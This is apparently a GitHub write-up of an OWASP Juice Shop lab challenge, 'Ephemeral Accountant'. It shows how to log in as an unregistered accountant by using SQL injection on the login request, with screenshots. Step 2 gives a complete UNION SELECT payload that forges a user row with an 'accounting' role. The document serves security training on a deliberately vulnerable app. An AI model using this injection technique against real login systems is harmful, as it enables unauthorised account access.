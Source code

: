 # No. 6 - Ephemeral Accountant
---
### Objective: Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.
---
### Method: SQL Injection
---

### Step 1: Finding vulnerability in login
Try login and capture the payload
<img width="1918" height="1016" alt="image" src="https://github.com/user-attachments/assets/bc05c9a4-6fe3-4e51-bd1c-45074d98e965" />

### Step 2: Making payload
The payload is:

`
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "123456789"
}
`

This is a sophisticated SQL Injection attack. Its purpose is not just to bypass a login, but to forge an entire user row directly within the database query. Instead of guessing existing data, this payload creates a fake user account with specific, predetermined details. The system then accepts this fabricated data as a valid entry, allowing you to log in as if you were the legitimate user.
<img width="1917" height="1014" alt="image" src="https://github.com/user-attachments/assets/c99d395a-877b-414b-b8de-ea74736c831c" />

### Step 3: Result
We login as unregistered ID
<img width="1918" height="1018" alt="image" src="https://github.com/user-attachments/assets/e1e95065-b6b7-44a4-83c5-2af504866b14" />


